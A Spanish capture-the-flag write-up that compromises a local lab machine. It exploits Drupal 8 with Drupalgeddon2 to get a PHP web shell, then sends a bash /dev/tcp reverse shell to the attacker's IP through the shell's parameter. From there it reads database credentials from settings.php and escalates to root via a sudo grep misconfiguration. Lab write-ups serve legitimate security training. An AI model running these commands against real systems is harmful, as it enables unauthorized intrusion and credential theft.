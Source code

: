 ## FASE DE ENUMERACIÓN

IP_victima-->172.17.0.2

Vamos a realizar un scaneo de los puertos que tiene abiertos, así como de los servicios y versiones que corren en ellos:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN puertosYservicios 172.17.0.2
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2
```
Solo el puerto 80 con una versión apache con alguna que otra vulnerabilidad, haciendo unas pruebas rápidas creo que están sanitizadas

Accedemos a la página y vemos un error 403... con esto, sin nada en el código fuente vamos a hacer un scan de rutas:

```bash
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x php,html,txt,
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/.                    (Status: 403) [Size: 285]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 1102730 / 1102735 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un CMS drupal..interesante, vamos a ver si logramos saber la versión, vamos a mirar las cabeceras:
```bash
 curl -I http://172.17.0.2/drupal/
```
```
X-Generator: Drupal 8 (https://www.drupal.org)
```
Versión 8...y ahora hablo de memoria pereo creo que en la versión 8 ya no se podia saber dentro de ella cual era así pues vamos a buscar un exploit para la versiñon 8

```
https://www.exploit-db.com/exploits/44449
```
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
drupalgedón...suena a muerte y destrucción del CMS drupal.

## ACCESO

1- En mi caso abrí nano para crear un archivo con el nombre drupalgeddon2.rb
  ```
  nano drupalgeddon2.rb
  ```
2-Ccopiar e script en la parte superior derecha del mismo donde pone "Copy"

3-pegar en el nano con "ctrl"+shift (la tecla de encima del ctrl izq con una flecha hacia arriba)+V

4-Guardar ctrl+O

5-Salir ctrl+X

es un script en ruby, instalo una gema que pide "require 'highline/import'" por si va a darme problemas:

```
 sudo gem install highline
```

y....a probar el script:

```bash
 ruby drupalgeddon2.rb http://172.17.0.2/drupal/
```

```
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

desde aquí podemos ejecutar comando:

```
bf7c7f570628>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

intenté lanzarme una reverseshell y no reconoce algunos caracteres, como no estoy seguro si es porque hay que encodear, se que me ha creado un archivo en la ruta "http://172.17.0.2/drupal/shell.php"
asi que lo voy a leer desde el drupalgedon2:

```
bf7c7f570628>> cat shell.php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```
vale si enviamos una consulta al parametro "c" ejecutamos un comando en el sistema.... jeje

vamos a 
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
cogemos la revershell de nc y la ajustamos un poco quedando asi:

```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```

-172.17.0.1 es mi IP


-445 el puerto que voy a poner a la escucha

me voy a 
```bash
https://www.urlencoder.org/
```
URLencodeo la rev y me queda así:
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```
nos ponemos a la escucha en el puerto 445:
```
 sudo nc -lvnp 445
```
ahora nos vamos a la página web y vamos a usar el parametro c y nuestra rev:

```bash
http://172.17.0.2/drupal/shell.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```

y estamos dentro!!!


## FASE ESCALADA DE PRIVILEGIOS

Miramos con "id" si estamos en algún grupo priviegiado:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nada

un cat al /etc/passwd para ver los usuarios:

 ```bash
cat /etc/passwd | grep sh$
```

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

con "sudo -l" nos pide contraseña que no tenemos

En drupal suelen guardarse algunas credenciales en un archivo llamado "settings.php"
lo buscamos:

```bash
find / -type f -name settings.php 2>/dev/null
```
```
/var/www/html/drupal/sites/default/settings.php
```

ya lo localizamos, vamos a ver que permisos tiene:
```
ls -la /var/www/html/drupal/sites/default/settings.php
-r--r--r-- 1 www-data www-data 32133 Oct 16  2024 /var/www/html/drupal/sites/default/settings.php
```

podemos leerlo, vamos a hacer una búsqueda rápida:

```bash
cat settings.php | grep -A 10 'databases'
```

en algún sitio podemos leer:

```
* @code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
--
$databases = array();
```

usuario:ballenita
password:ballenitafeliz
Además ese comentario de "Cuidadito cuidadín pillin" me da buena vibra xD

intentamos pivotar al user ballenita:
```
su ballenita
```
metemos el password--->ballenitafeliz

y ya somos ballenita¡¡¡¡


Hacemos un sudo -l:

```bash
sudo -l
```

```
(root) NOPASSWD: /bin/ls, /bin/grep
```


pudiendo listar con ls siendo root todo el sistema:
```bash
sudo -u root /bin/ls /root
```
```
secretitomaximo.txt
```
y con grep, vamos a 
```bash
https://gtfobins.github.io/gtfobins/grep/#sudo
```
```
LFILE=file_to_read
sudo grep '' $LFILE
```

pues al lio, en vez de guardar la ruta al file lo meto directo:

```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```
```
nobodycanfindthispasswordrootrocks
```

veamos si es el password de root:

```bash
su root
```
introducimos el password:nobodycanfindthispasswordrootrocks

Ya somos root¡¡¡¡





